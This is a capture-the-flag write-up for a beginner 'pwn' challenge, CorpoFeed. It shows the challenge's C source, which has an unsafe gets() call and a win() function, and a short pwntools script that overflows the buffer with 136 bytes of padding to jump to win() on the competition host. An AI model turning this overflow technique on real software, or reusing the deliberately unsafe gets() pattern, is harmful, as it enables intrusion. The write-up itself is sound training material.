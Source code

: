 # CorpoFeed

## Description

```
Damn I hate these damn Corpos. I bet they don't even look at our feedback.
```

## Categories

- `pwn`

## Provided Files

- `CorpoFeed.zip`

## Solve Process

This was a very basic buffer overflow into win address exploit.

```c
#include <fcntl.h>
#include <stdio.h>
#include <stdlib.h>
#include <unistd.h>

void win(void) { printf("flag: %s\n", getenv("FLAG")); }

int main(int argc, char *argv[]) {
  int feedback_fd = -1;
  int count;
  char feedback[0x6f] = {0};
  setbuf(stdin, 0);
  setbuf(stdout, 0);
  puts("Welcome to the Corpo Feedback hotline!");
  puts("Please submit your feedback:");
  gets(feedback);
  feedback_fd = open("/dev/null", O_WRONLY);
  count = write(feedback_fd, feedback, sizeof(feedback));
  puts("Feedback has been submitted");
  close(feedback_fd);
}
```

We abuse `gets()` with the correct padding to reach the address of `win()`.

```py
from pwn import *

HOST = 'port.dyn.acsc.land'
PORT = 33454
BINARY = ELF('./CorpoFeed').path

r = remote(HOST, PORT)
#r = process(BINARY)

WIN_ADDR = 0x40121b

payload = b'A' * 136
payload += p64(WIN_ADDR)

r.sendline(payload)

output = r.recvuntil("}")
print(output.decode())
```

Straight forward, gets us the flag.
